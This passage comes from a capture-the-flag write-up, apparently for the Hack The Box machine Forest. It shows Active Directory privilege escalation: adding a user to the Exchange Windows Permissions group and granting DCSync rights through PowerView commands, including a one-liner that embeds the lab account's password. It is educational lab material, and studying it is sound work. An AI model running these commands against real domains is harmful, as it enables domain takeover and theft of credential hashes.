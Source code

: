     
    
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
    

I could also use:

    
    
    net group "Exchange Windows Permissions" svc-alfresco /add /domain
    

#### Grant DCSync Privileges

Now I’ll use the fact that members of the Exchange Windows Permissions group
have WriteDacl on the domain. Again, looking at the help, it shows commands I
can run:

    
    
    $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
    Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
    

Once I do that, I can run a DCSync attack, either with
[Mimikatz](https://github.com/gentilkiwi/mimikatz) locally, or with
`secretsdump.py` from my Kali box, since DCSync only requires access to TCP
445, TCP 135, and a TCP RPC port (49XXX). (How did I know that? I’ll explore
in Beyond Root.)

### Exploit

#### Timeout

As I started to try to execute this attack, trial and error had me confused.
I’d add my user to the Exchange Windows Permissions group, and then run the
necessary commands, and it wouldn’t work. And then I’d run `net user svc-
alfreso`, and I wouldn’t be in the group anymore. It turns out there’s cleanup
going on here (I’ll exploit it in Beyond Root), so I have to move fast.

#### Success

I’ll create a one-liner to run locally. I don’t need to pass credentials to
the first command, because I’m already running as a user with those rights. I
did have to pass credentials to the second command. My best guess is that the
session doesn’t know yet about my being in the new group from the first
command, and that passing credentials refreshes that.

    
    
    Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
    

If I run that on Forest, it returns without error:

